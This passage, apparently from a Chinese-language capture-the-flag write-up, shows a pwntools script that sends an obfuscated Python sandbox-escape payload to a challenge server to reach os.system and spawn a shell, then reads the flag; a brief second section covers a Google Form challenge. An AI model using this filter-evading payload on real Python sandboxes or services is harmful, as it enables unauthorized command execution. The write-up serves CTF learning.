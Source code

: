 ```python
from pwn import *
r = remote("chall.nckuctf.org", 8030)
p = "globals()['_'+'_builtins__'].__dict__['__i'+'mport__']('o'+'s').__dict__['s'+'ystem']('sh')"
r.sendlineafter(">>> ", p)
r.interactive()
```
進去之後 `cat flag_432rdeoibhedqnjd`即可
![image](https://hackmd.io/_uploads/HkvGVFCDC.png)

## google form
去搜尋關鍵字就有了
![image](https://hackmd.io/_uploads/HybAGKRwR.png)

